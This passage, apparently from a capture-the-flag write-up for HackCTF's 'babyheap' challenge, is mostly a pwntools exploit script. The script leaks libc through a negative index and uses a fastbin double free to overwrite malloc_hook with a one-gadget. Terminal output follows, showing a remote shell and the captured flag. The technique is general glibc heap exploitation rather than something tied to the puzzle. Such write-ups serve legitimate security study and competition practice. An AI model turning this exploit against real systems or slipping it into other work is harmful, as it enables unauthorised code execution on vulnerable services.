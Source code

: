 ```python
    r.recvuntil("index: ")
    r.sendline(str(index))

def Show(index):
    r.recvuntil("> ")
    r.sendline("3")
    r.recvuntil("index: ")
    r.sendline(str(index))

Show(-262978) # libc leak
addr_setvbuf = u64(r.recv(6).ljust(8, "\x00")) # address of setvbuf()
log.info("address of setvbuf() : " + hex(addr_setvbuf))
addr_libc = addr_setvbuf - offset_setvbuf # address of libc base
log.info("address of libc base : " + hex(addr_libc))
addr_mallochook = addr_libc + offset_mallochook # address of malloc hook
log.info("address of malloc hook : " + hex(addr_mallochook))
addr_onegadget = addr_libc + offset_onegadget # address of one gadget
log.info("address of one gadget : " + hex(addr_onegadget))

Malloc(0x60, "AAAA") # index: 0
Malloc(0x60, "BBBB") # index: 1
Free(0)
Free(1)
Free(0)
Malloc(0x60, p64(addr_mallochook - 0x23)) # index: 2
Malloc(0x60, "AAAA") # index: 3
Malloc(0x60, "BBBB") # index: 4
Malloc(0x60, "A"*0x13 + p64(addr_onegadget)) # index: 5
Free(2)
Free(2) # double free corruption

r.interactive()
```

```bash
chykor12@ubuntu:~/HackCTF$ python exploit_babyheap.py
[+] Opening connection to ctf.j0n9hyun.xyz on port 3030: Done
[*] address of setvbuf() : 0x7f6fac45ce70
[*] address of libc base : 0x7f6fac3ed000
[*] address of malloc hook : 0x7f6fac7b1b10
[*] address of one gadget : 0x7f6fac4dd2a4
[*] Switching to interactive mode
*** Error in `./main': double free or corruption (fasttop): 0x0000000001914010 ***
$ whoami
attack
$ ls
flag
main
$ cat flag
HackCTF{51mp13_f457b1n_dup!!}
```


